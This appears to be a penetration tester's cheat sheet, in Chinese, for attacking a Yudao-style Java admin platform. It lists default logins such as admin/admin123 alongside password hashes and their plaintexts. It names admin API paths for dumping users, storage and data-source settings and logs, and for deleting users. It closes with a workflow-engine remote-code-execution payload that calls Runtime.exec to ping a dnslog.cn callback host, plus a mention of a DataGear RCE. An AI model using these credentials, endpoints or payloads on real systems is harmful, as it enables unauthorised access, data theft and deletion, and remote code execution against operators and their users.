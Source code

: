 默认账户
admin admin123
test test123
hrmgr hr123


```
test123
bv1BUHrzxj5rXjwSBhwqrfoa8RgrUBK8bldbPKY62k6hkKN0zeOcz0Sztlto66M1G/c2Tz7qWWOHBtMQTdHBPQ==

$2a$10$mRMIYLDtRHlf6.9ipiqH1.Z.bh/R9dO9d5iHiGYPigi6r5KOoR2Wm
默认密钥密码admin123

$2a$04$5Kp7boZ/JfnMRNcSxZ3ItOaRM.Mmkdiyk3xKqNMCxCWMWdBwTY97y
admin1234
```

^
java解析js的RCE，java17如果默认不支持解析js。
<https://www.freebuf.com/articles/web/362360.html>
工作流：<https://blog.thatcoder.cn/wiki/YuDaoCloud/%E5%B7%A5%E4%BD%9C%E6%B5%81%E6%89%8B%E5%86%8C/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE.html>

```
用户
/admin-api/system/user/page
/prod-api/admin-api/system/user/page



/infra/data-source-config
可能前后端分离


存储桶，存储位置
/admin-api/infra/file-config/page

数据源,无敏感信息
/admin-api/infra/data-source-config/list
/admin-api/infra/data-source-config/create



日志
/admin-api/infra/api-access-log/page


删用户，最好delete方法
/admin-api/system/user/delete?id=4




工作流
/manager/model/list
/manager/model/edit
java.lang.Runtime.getRuntime().exec("ping hng2al.dnslog.cn");
```



^
## **jdbc**
DataGear全版本RCE


